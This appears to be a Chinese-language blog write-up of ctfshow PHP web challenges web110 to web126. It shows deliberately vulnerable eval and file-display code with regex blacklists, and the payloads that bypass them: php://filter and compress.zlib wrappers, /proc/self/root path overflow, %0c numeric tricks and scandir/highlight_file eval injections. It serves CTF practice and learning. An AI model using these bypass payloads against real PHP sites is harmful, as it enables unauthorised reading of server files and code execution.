<h1 id="web110"><a href="#web110" class="headerlink" title="web110"></a>web110</h1><h2 id="原始信息-27"><a href="#原始信息-27" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$v1</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line">    <span class="variable">$v2</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\~|\`|\!|\@|\#|\\$|\%|\^|\&amp;|\*|\(|\)|\_|\-|\+|\=|\&#123;|\[|\;|\:|\&quot;|\&#x27;|\,|\.|\?|\\\\|\/|[0-9]/&#x27;</span>, <span class="variable">$v1</span>))&#123;</span><br><span class="line">            <span class="keyword">die</span>(<span class="string">&quot;error v1&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\~|\`|\!|\@|\#|\\$|\%|\^|\&amp;|\*|\(|\)|\_|\-|\+|\=|\&#123;|\[|\;|\:|\&quot;|\&#x27;|\,|\.|\?|\\\\|\/|[0-9]/&#x27;</span>, <span class="variable">$v2</span>))&#123;</span><br><span class="line">            <span class="keyword">die</span>(<span class="string">&quot;error v2&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">eval</span>(<span class="string">&quot;echo new <span class="subst">$v1</span>(<span class="subst">$v2</span>());&quot;</span>);</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-24"><a href="#解题-24" class="headerlink" title="解题"></a>解题</h2><p>千万不要使用函数读取文件内容，txt文件是可以直接访问的，别掉坑了。</p>
<figure class="highlight plaintext"><table><tr><td class="code"><pre><span class="line">php内置类 利用 FilesystemIterator 获取指定目录下的所有文件 </span><br><span class="line">payload: ?v1=FilesystemIterator&amp;v2=getcwd</span><br></pre></td></tr></table></figure>

<h1 id="web111"><a href="#web111" class="headerlink" title="web111"></a>web111</h1><h2 id="原始信息-28"><a href="#原始信息-28" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"></span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">getFlag</span>(<span class="params">&amp;<span class="variable">$v1</span>,&amp;<span class="variable">$v2</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">eval</span>(<span class="string">&quot;$<span class="subst">$v1</span> = &amp;$<span class="subst">$v2</span>;&quot;</span>);</span><br><span class="line">    <span class="title function_ invoke__">var_dump</span>(<span class="variable">$$v1</span>);</span><br><span class="line">&#125;</span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>]) &amp;&amp; <span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>]))&#123;</span><br><span class="line">    <span class="variable">$v1</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v1&#x27;</span>];</span><br><span class="line">    <span class="variable">$v2</span> = <span class="variable">$_GET</span>[<span class="string">&#x27;v2&#x27;</span>];</span><br><span class="line"></span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\~| |\`|\!|\@|\#|\\$|\%|\^|\&amp;|\*|\(|\)|\_|\-|\+|\=|\&#123;|\[|\;|\:|\&quot;|\&#x27;|\,|\.|\?|\\\\|\/|[0-9]|\&lt;|\&gt;/&#x27;</span>, <span class="variable">$v1</span>))&#123;</span><br><span class="line">            <span class="keyword">die</span>(<span class="string">&quot;error v1&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\~| |\`|\!|\@|\#|\\$|\%|\^|\&amp;|\*|\(|\)|\_|\-|\+|\=|\&#123;|\[|\;|\:|\&quot;|\&#x27;|\,|\.|\?|\\\\|\/|[0-9]|\&lt;|\&gt;/&#x27;</span>, <span class="variable">$v2</span>))&#123;</span><br><span class="line">            <span class="keyword">die</span>(<span class="string">&quot;error v2&quot;</span>);</span><br><span class="line">    &#125;</span><br><span class="line">    </span><br><span class="line">    <span class="comment"># 限制输入字符串</span></span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/ctfshow/&#x27;</span>, <span class="variable">$v1</span>))&#123;</span><br><span class="line">            <span class="title function_ invoke__">getFlag</span>(<span class="variable">$v1</span>,<span class="variable">$v2</span>);</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-25"><a href="#解题-25" class="headerlink" title="解题"></a>解题</h2><p>过滤掉全部的符号，又搞一个变量赋值。</p>
<p>唯一符合变量赋值又能获取相关信息的，只有全局变量。</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line">?v1=ctfshow&amp;v2=GLOBALS</span><br></pre></td></tr></table></figure>

<h1 id="web112"><a href="#web112" class="headerlink" title="web112"></a>web112</h1><h2 id="原始信息-29"><a href="#原始信息-29" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">filter</span>(<span class="params"><span class="variable">$file</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\.\.\/|http|https|data|input|rot13|base64|string/i&#x27;</span>,<span class="variable">$file</span>))&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&quot;hacker!&quot;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">return</span> <span class="variable">$file</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="variable">$file</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;file&#x27;</span>];</span><br><span class="line"><span class="keyword">if</span>(! <span class="title function_ invoke__">is_file</span>(<span class="variable">$file</span>))&#123;</span><br><span class="line">    <span class="title function_ invoke__">highlight_file</span>(<span class="title function_ invoke__">filter</span>(<span class="variable">$file</span>));</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&quot;hacker!&quot;</span>;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

<h2 id="解题-26"><a href="#解题-26" class="headerlink" title="解题"></a>解题</h2><p>协议绕过</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">is_file</span>()	<span class="comment"># 判断给定文件名是否为一个正常的文件, 失败时抛出 E_WARNING 警告。</span></span><br><span class="line">    <span class="comment"># 可以试验包装器 伪协议 绕过</span></span><br><span class="line">    <span class="comment"># 过滤掉的：file:// </span></span><br><span class="line">    <span class="comment"># 不影响file_get_contents highlight_file</span></span><br><span class="line"><span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/\.\.\/|http|https|data|input|rot13|base64|string/i&#x27;</span>,<span class="variable">$file</span>);</span><br><span class="line"><span class="comment">#正则表达式过滤，过滤掉了许多协议，但在php伪协议当中还能选择其它协议来试验</span></span><br><span class="line"><span class="comment">#因为代码高亮，所以没必要去另外把源码编译为base64的格式了</span></span><br><span class="line"><span class="comment">#更何况编译base64已经被限制死了。</span></span><br><span class="line">php:<span class="comment">//filter/resource=flag.php</span></span><br><span class="line">php:<span class="comment">//filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php</span></span><br><span class="line">php:<span class="comment">//filter/read=convert.quoted-printable-encode/resource=flag.php</span></span><br><span class="line">compress.zlib:<span class="comment">//flag.php</span></span><br></pre></td></tr></table></figure>


<h1 id="web113"><a href="#web113" class="headerlink" title="web113"></a>web113</h1><h2 id="原始信息-30"><a href="#原始信息-30" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">filter</span>(<span class="params"><span class="variable">$file</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/filter|\.\.\/|http|https|data|data|rot13|base64|string/i&#x27;</span>,<span class="variable">$file</span>))&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&#x27;hacker!&#x27;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">return</span> <span class="variable">$file</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="variable">$file</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;file&#x27;</span>];</span><br><span class="line"><span class="keyword">if</span>(! <span class="title function_ invoke__">is_file</span>(<span class="variable">$file</span>))&#123;</span><br><span class="line">    <span class="title function_ invoke__">highlight_file</span>(<span class="title function_ invoke__">filter</span>(<span class="variable">$file</span>));</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&quot;hacker!&quot;</span>;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-27"><a href="#解题-27" class="headerlink" title="解题"></a>解题</h2><p>目录溢出</p>
<p>具体原因：proc伪文件系统，多个软连接超越处理长度，is_file就不认为它不是一个文件。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/proc/<span class="built_in">self</span>/root/<span class="keyword">var</span>/www/html/flag.php</span><br></pre></td></tr></table></figure>

<p>或者zip协议流访问（个人访问是失败的，因为是校园网……）</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">?file=compress.zlib:<span class="comment">//flag.php</span></span><br></pre></td></tr></table></figure>

<h1 id="web114"><a href="#web114" class="headerlink" title="web114"></a>web114</h1><h2 id="原始信息-31"><a href="#原始信息-31" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">filter</span>(<span class="params"><span class="variable">$file</span></span>)</span>&#123;</span><br><span class="line">    <span class="keyword">if</span>(<span class="title function_ invoke__">preg_match</span>(<span class="string">&#x27;/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i&#x27;</span>,<span class="variable">$file</span>))&#123;</span><br><span class="line">        <span class="keyword">die</span>(<span class="string">&#x27;hacker!&#x27;</span>);</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">return</span> <span class="variable">$file</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="variable">$file</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;file&#x27;</span>];</span><br><span class="line"><span class="keyword">echo</span> <span class="string">&quot;师傅们居然tql都是非预期 哼！&quot;</span>;</span><br><span class="line"><span class="keyword">if</span>(! <span class="title function_ invoke__">is_file</span>(<span class="variable">$file</span>))&#123;</span><br><span class="line">    <span class="title function_ invoke__">highlight_file</span>(<span class="title function_ invoke__">filter</span>(<span class="variable">$file</span>));</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&quot;hacker!&quot;</span>;</span><br><span class="line">&#125; 师傅们居然tql都是非预期 哼！</span><br></pre></td></tr></table></figure>


<h2 id="解题-28"><a href="#解题-28" class="headerlink" title="解题"></a>解题</h2><p>限制明显加强，不过放过了filter。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">?file=php:<span class="comment">//filter/resource=flag.php</span></span><br></pre></td></tr></table></figure>

<h1 id="web115"><a href="#web115" class="headerlink" title="web115"></a>web115</h1><h2 id="原始信息-32"><a href="#原始信息-32" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="keyword">include</span>(<span class="string">&#x27;flag.php&#x27;</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="function"><span class="keyword">function</span> <span class="title">filter</span>(<span class="params"><span class="variable">$num</span></span>)</span>&#123;</span><br><span class="line">    <span class="comment"># 过滤十六进制，八进制，浮点数，科学计数法，加法</span></span><br><span class="line">    <span class="variable">$num</span>=<span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;0x&quot;</span>,<span class="string">&quot;1&quot;</span>,<span class="variable">$num</span>);</span><br><span class="line">    <span class="variable">$num</span>=<span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;0&quot;</span>,<span class="string">&quot;1&quot;</span>,<span class="variable">$num</span>);</span><br><span class="line">    <span class="variable">$num</span>=<span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;.&quot;</span>,<span class="string">&quot;1&quot;</span>,<span class="variable">$num</span>);</span><br><span class="line">    <span class="variable">$num</span>=<span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;e&quot;</span>,<span class="string">&quot;1&quot;</span>,<span class="variable">$num</span>);</span><br><span class="line">    <span class="variable">$num</span>=<span class="title function_ invoke__">str_replace</span>(<span class="string">&quot;+&quot;</span>,<span class="string">&quot;1&quot;</span>,<span class="variable">$num</span>);</span><br><span class="line">    <span class="keyword">return</span> <span class="variable">$num</span>;</span><br><span class="line">&#125;</span><br><span class="line"><span class="variable">$num</span>=<span class="variable">$_GET</span>[<span class="string">&#x27;num&#x27;</span>];</span><br><span class="line"></span><br><span class="line"><span class="comment"># 是否为数字				不是36			取出字符串两边空白符		上面的进制过滤</span></span><br><span class="line"><span class="keyword">if</span>(<span class="title function_ invoke__">is_numeric</span>(<span class="variable">$num</span>) <span class="keyword">and</span> <span class="variable">$num</span>!==<span class="string">&#x27;36&#x27;</span> <span class="keyword">and</span> <span class="title function_ invoke__">trim</span>(<span class="variable">$num</span>)!==<span class="string">&#x27;36&#x27;</span> <span class="keyword">and</span> <span class="title function_ invoke__">filter</span>(<span class="variable">$num</span>)==<span class="string">&#x27;36&#x27;</span>)&#123;</span><br><span class="line">    <span class="keyword">if</span>(<span class="variable">$num</span>==<span class="string">&#x27;36&#x27;</span>)&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">    &#125;<span class="keyword">else</span>&#123;</span><br><span class="line">        <span class="keyword">echo</span> <span class="string">&quot;hacker!!&quot;</span>;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line">    <span class="keyword">echo</span> <span class="string">&quot;hacker!!!&quot;</span>;</span><br><span class="line">&#125; 黑客！！！ </span><br></pre></td></tr></table></figure>

<h2 id="解题-29"><a href="#解题-29" class="headerlink" title="解题"></a>解题</h2><p>如果顺着题意的话：</p>
<figure class="highlight bash"><table><tr><td class="code"><pre><span class="line"><span class="comment"># 是其它进制36，拿到flag</span></span><br></pre></td></tr></table></figure>

<p>但关键的进制几乎被全部禁用了……</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">is_numeric</span>()</span><br><span class="line">    <span class="comment"># 判断字符串是否为数字</span></span><br><span class="line">    <span class="comment"># 绕过方法：</span></span><br><span class="line">    <span class="comment">#?num=%0936 </span></span><br><span class="line">    <span class="comment">#?num=%2036(加个空格) =&gt; 同时绕过了$num!==&#x27;36&#x27;(三个字符与两个字符的差距《不可见字符也是字符》)</span></span><br><span class="line"><span class="title function_ invoke__">trim</span>(<span class="variable">$num</span>)!==<span class="string">&#x27;36&#x27;</span></span><br><span class="line">    <span class="comment"># 过滤了空白字符</span></span><br><span class="line">    <span class="comment"># 考虑使用%0c代替空格(%0c没有被trim过滤)</span></span><br><span class="line">    <span class="comment"># %0c36强制转化为数值的话就是36</span></span><br><span class="line"><span class="variable">$num</span>!==<span class="string">&#x27;36&#x27;</span> <span class="keyword">and</span> <span class="variable">$num</span>==<span class="string">&#x27;36&#x27;</span></span><br><span class="line">    <span class="comment"># 第一个会把%0c36当做字符串和&#x27;36&#x27;进行比较</span></span><br><span class="line">    <span class="comment"># 第二个会把%0c36当做数值36和&#x27;36&#x27;进行比较</span></span><br><span class="line">    </span><br><span class="line"><span class="comment"># 思路：一个个函数进行尝试</span></span><br><span class="line">    <span class="comment"># 尝试的空字符是ascii码内的非明文字符</span></span><br><span class="line">    <span class="comment"># %0c==\f		ascii换页符</span></span><br></pre></td></tr></table></figure>

<p>一个奇怪的情况：等于%0c36时既不等于又等于</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">payload:</span><br><span class="line">GET:?num=%<span class="number">0</span>c36</span><br><span class="line">    <span class="comment"># 居然满足了这个条件：$num!==&#x27;36&#x27; and $num==&#x27;36&#x27;</span></span><br></pre></td></tr></table></figure>

<h2 id="收获"><a href="#收获" class="headerlink" title="收获"></a>收获</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="variable">$num</span>!==<span class="string">&#x27;36&#x27;</span> <span class="keyword">and</span> <span class="variable">$num</span>==<span class="string">&#x27;36&#x27;</span>;</span><br><span class="line"><span class="variable">$num</span>=<span class="string">&#x27;%0c36&#x27;</span>;</span><br></pre></td></tr></table></figure>

<h1 id="web123"><a href="#web123" class="headerlink" title="web123"></a>web123</h1><h2 id="原始信息-33"><a href="#原始信息-33" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="comment"># 获取脚本文件名</span></span><br><span class="line"><span class="variable">$a</span>=<span class="variable">$_SERVER</span>[<span class="string">&#x27;argv&#x27;</span>];</span><br><span class="line"><span class="variable">$c</span>=<span class="variable">$_POST</span>[<span class="string">&#x27;fun&#x27;</span>];</span><br><span class="line"><span class="comment">#必须有CTF_SHOW和CTF_SHOW.COM,不能有fl0g</span></span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;CTF_SHOW&#x27;</span>])&amp;&amp;<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;CTF_SHOW.COM&#x27;</span>])&amp;&amp;!<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;fl0g&#x27;</span>]))&#123;</span><br><span class="line">    <span class="keyword">if</span>(!<span class="title function_ invoke__">preg_match</span>(<span class="string">&quot;/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\&#123;|\&#125;|\&quot;|\&#x27;|\,|\.|\;|\?/&quot;</span>, <span class="variable">$c</span>)&amp;&amp;<span class="variable">$c</span>&lt;=<span class="number">18</span>)&#123;</span><br><span class="line">         <span class="keyword">eval</span>(<span class="string">&quot;<span class="subst">$c</span>&quot;</span>.<span class="string">&quot;;&quot;</span>);  </span><br><span class="line">         <span class="keyword">if</span>(<span class="variable">$fl0g</span>===<span class="string">&quot;flag_give_me&quot;</span>)&#123;</span><br><span class="line">             <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">         &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-30"><a href="#解题-30" class="headerlink" title="解题"></a>解题</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">#只转换一次：</span></span><br><span class="line">    xx[xxx.com =&gt; 仅仅转换[为_而已;</span><br><span class="line"><span class="comment"># 第一层传参绕过;</span></span><br><span class="line">POST:CTF[SHOW=<span class="number">1</span>&amp;CTF[SHOW.COM=<span class="number">2</span></span><br><span class="line"><span class="comment"># 第二层：正则表达式，没限制$_也没限制();还有空格</span></span><br><span class="line"><span class="comment"># 故：传参的时候直接读取$flag</span></span><br><span class="line">POST:CTF[SHOW=<span class="number">1</span>&amp;CTF[SHOW.COM=<span class="number">2</span>&amp;fun=<span class="keyword">echo</span> <span class="variable">$flag</span></span><br></pre></td></tr></table></figure>


<h1 id="web125"><a href="#web125" class="headerlink" title="web125"></a>web125</h1><h2 id="原始信息-34"><a href="#原始信息-34" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="variable">$a</span>=<span class="variable">$_SERVER</span>[<span class="string">&#x27;argv&#x27;</span>];</span><br><span class="line"><span class="variable">$c</span>=<span class="variable">$_POST</span>[<span class="string">&#x27;fun&#x27;</span>];</span><br><span class="line"><span class="comment"># $c&lt;16不是strlen($c)&lt;16,各位大师兄千万千万看清楚了</span></span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;CTF_SHOW&#x27;</span>])&amp;&amp;<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;CTF_SHOW.COM&#x27;</span>])&amp;&amp;!<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;fl0g&#x27;</span>]))&#123;</span><br><span class="line">    <span class="keyword">if</span>(!<span class="title function_ invoke__">preg_match</span>(<span class="string">&quot;/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\&#123;|\&#125;|\&quot;|\&#x27;|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i&quot;</span>, <span class="variable">$c</span>)&amp;&amp;<span class="variable">$c</span>&lt;=<span class="number">16</span>)&#123;</span><br><span class="line">         <span class="keyword">eval</span>(<span class="string">&quot;<span class="subst">$c</span>&quot;</span>.<span class="string">&quot;;&quot;</span>);</span><br><span class="line">         <span class="keyword">if</span>(<span class="variable">$fl0g</span>===<span class="string">&quot;flag_give_me&quot;</span>)&#123;</span><br><span class="line">             <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">         &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-31"><a href="#解题-31" class="headerlink" title="解题"></a>解题</h2><p>感谢大佬指路，让我这个菜鸡学会了这么在php文档当中找flag，哈哈哈……</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment"># 限制明显增多，几乎封死了所有的变量获取途径</span></span><br><span class="line"><span class="comment"># 但是依旧没有限制关键字符，即便是关键字被封禁了。。。</span></span><br><span class="line"><span class="comment"># 这里限制了常见的输出函数，我们换个方式输出：</span></span><br></pre></td></tr></table></figure>

<p>payload：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment"># 先测测当前目录有没有变动：</span></span><br><span class="line">POST：fun=<span class="keyword">die</span>(<span class="title function_ invoke__">implode</span>(<span class="title function_ invoke__">scandir</span>(<span class="keyword">__DIR__</span>)))&amp;CTF[SHOW=<span class="number">1</span>&amp;CTF[SHOW.COM=<span class="number">2</span></span><br><span class="line"><span class="keyword">return</span>: ...flag.phpindex.php</span><br><span class="line"><span class="comment"># 相信能简单看出这个结构咋样的，高亮flag文件就能展出flag啦</span></span><br><span class="line">POST:fun=<span class="keyword">die</span>(<span class="title function_ invoke__">highlight_file</span>((<span class="title function_ invoke__">scandir</span>(<span class="keyword">__DIR__</span>))[<span class="number">2</span>]))&amp;CTF[SHOW=<span class="number">1</span>&amp;CTF[SHOW.COM=<span class="number">2</span></span><br><span class="line"><span class="keyword">return</span>:</span><br><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"></span><br><span class="line"><span class="comment">/*</span></span><br><span class="line"><span class="comment"># -*- coding: utf-8 -*-</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Author</span>: h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Date</span>:   2020-09-07 19:40:53</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified by:   h1xa</span></span><br><span class="line"><span class="comment"># <span class="doctag">@Last</span> Modified time: 2020-09-07 19:41:00</span></span><br><span class="line"><span class="comment"># <span class="doctag">@email</span>: h1xa<span class="doctag">@ctfer</span>.com</span></span><br><span class="line"><span class="comment"># <span class="doctag">@link</span>: https://ctfer.com</span></span><br><span class="line"><span class="comment"></span></span><br><span class="line"><span class="comment">*/</span></span><br><span class="line"></span><br><span class="line"></span><br><span class="line"><span class="variable">$flag</span>=<span class="string">&quot;ctfshow&#123;b00d1811-bf0c-4da0-b430-a045ff428bea&#125;&quot;</span>; </span><br></pre></td></tr></table></figure>

<p>官方payload：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">GET:?<span class="number">1</span>=flag.php </span><br><span class="line">POST:CTF_SHOW=&amp;CTF[SHOW.COM=&amp;fun=<span class="title function_ invoke__">highlight_file</span>(<span class="variable">$_GET</span>[<span class="number">1</span>])</span><br></pre></td></tr></table></figure>

<h2 id="收获-1"><a href="#收获-1" class="headerlink" title="收获"></a>收获</h2><p>使用官方文档对各个函数的解读，以及自己的本地测试，能更快找到自己想要的东西或者漏洞！</p>
<h1 id="web126"><a href="#web126" class="headerlink" title="web126"></a>web126</h1><h2 id="原始信息-35"><a href="#原始信息-35" class="headerlink" title="原始信息"></a>原始信息</h2><figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="title function_ invoke__">error_reporting</span>(<span class="number">0</span>);</span><br><span class="line"><span class="title function_ invoke__">highlight_file</span>(<span class="keyword">__FILE__</span>);</span><br><span class="line"><span class="keyword">include</span>(<span class="string">&quot;flag.php&quot;</span>);</span><br><span class="line"><span class="variable">$a</span>=<span class="variable">$_SERVER</span>[<span class="string">&#x27;argv&#x27;</span>];</span><br><span class="line"><span class="variable">$c</span>=<span class="variable">$_POST</span>[<span class="string">&#x27;fun&#x27;</span>];</span><br><span class="line"><span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;CTF_SHOW&#x27;</span>])&amp;&amp;<span class="keyword">isset</span>(<span class="variable">$_POST</span>[<span class="string">&#x27;CTF_SHOW.COM&#x27;</span>])&amp;&amp;!<span class="keyword">isset</span>(<span class="variable">$_GET</span>[<span class="string">&#x27;fl0g&#x27;</span>]))&#123;</span><br><span class="line">    <span class="keyword">if</span>(!<span class="title function_ invoke__">preg_match</span>(<span class="string">&quot;/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\&#123;|\&#125;|\&quot;|\&#x27;|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i&quot;</span>, <span class="variable">$c</span>) &amp;&amp; <span class="title function_ invoke__">strlen</span>(<span class="variable">$c</span>)&lt;=<span class="number">16</span>)&#123;</span><br><span class="line">         <span class="keyword">eval</span>(<span class="string">&quot;<span class="subst">$c</span>&quot;</span>.<span class="string">&quot;;&quot;</span>);  </span><br><span class="line">         <span class="keyword">if</span>(<span class="variable">$fl0g</span>===<span class="string">&quot;flag_give_me&quot;</span>)&#123;</span><br><span class="line">             <span class="keyword">echo</span> <span class="variable">$flag</span>;</span><br><span class="line">         &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125; </span><br></pre></td></tr></table></figure>

